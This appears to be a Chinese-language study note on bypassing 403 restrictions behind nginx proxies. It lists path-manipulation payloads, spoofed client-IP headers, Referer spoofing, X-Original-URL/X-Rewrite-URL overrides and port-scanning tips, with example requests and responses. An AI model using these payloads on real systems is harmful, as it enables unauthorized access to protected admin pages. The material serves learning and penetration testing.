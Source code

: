 一直想学习下403绕过，换了新公司后终于有时间可以学习下

简单概括下漏洞原理：
当下的软件部署方式通常是nginx在前端做反向代理，后端用java或php开发，开发者一般通过nginx识别访问端ip，以此限制对接口的访问，我们可以利用nginx在权限校验方面的缺陷，来绕过限制，具体如下：

# 01 修改URL扩展名
```
site.com/admin => 403

site.com/admin/ => 200
site.com/random-dir/../admin => 200
site.com/random-dir/..;/admin => 200
site.com/random-dir/..%252F/admin => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200
site.com/%0dadmin => 200
```
# 01 修改代理IP
```
- X-Originating-IP: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwared-Host: 127.0.0.1
- X-Host: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
```
示例代码
```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK
```
# 02 修改Referer标头
Referer请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源，示例代码如下：
```
Request
GET /auth/login HTTP/1.1
Host: xxx
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
Host: xxx
Referer: https://xxx/auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET /auth/login HTTP/1.1
Host: xxx
Referer: https://xxx/auth/login
Response
HTTP/1.1 200 OK
```
# 03 覆盖请求URL
如果目标支持X-Original-URL和X-Rewrite-URL标头，用户可以使用X-Original-URL或X-Rewrite-URL请求标头覆盖请求URL中的路径，尝试绕过对更高级别的缓存和Web服务器的限制，示例代码如下：
```
Request
  GET /auth/login HTTP/1.1
  Response
  HTTP/1.1 403 Forbidden

Reqeust
  GET / HTTP/1.1
  X-Original-URL: /auth/login
  Response
  HTTP/1.1 200 OK

or

Reqeust
  GET / HTTP/1.1
  X-Rewrite-URL: /auth/login
  Response
  HTTP/1.1 200 OK

```
# 04 修改HOST（这块原文讲的不是很清楚，看到的不是很明白）
我们先说下Host在请求头中的作用，在一般情况下，几个网站可能会部署在同一个服务器上，或者几个web系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。而很多 WEB 应用通过获取 HTTP HOST 头来获得当前请求访问的位置，但是很多开发人员并未意识到 HTTP HOST 头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。
# 05 端口利用
全端口扫描后，在其他端口可能会发现可未授权访问的web系统

# 参考文章

https://blog.csdn.net/st3pby/article/details/128485994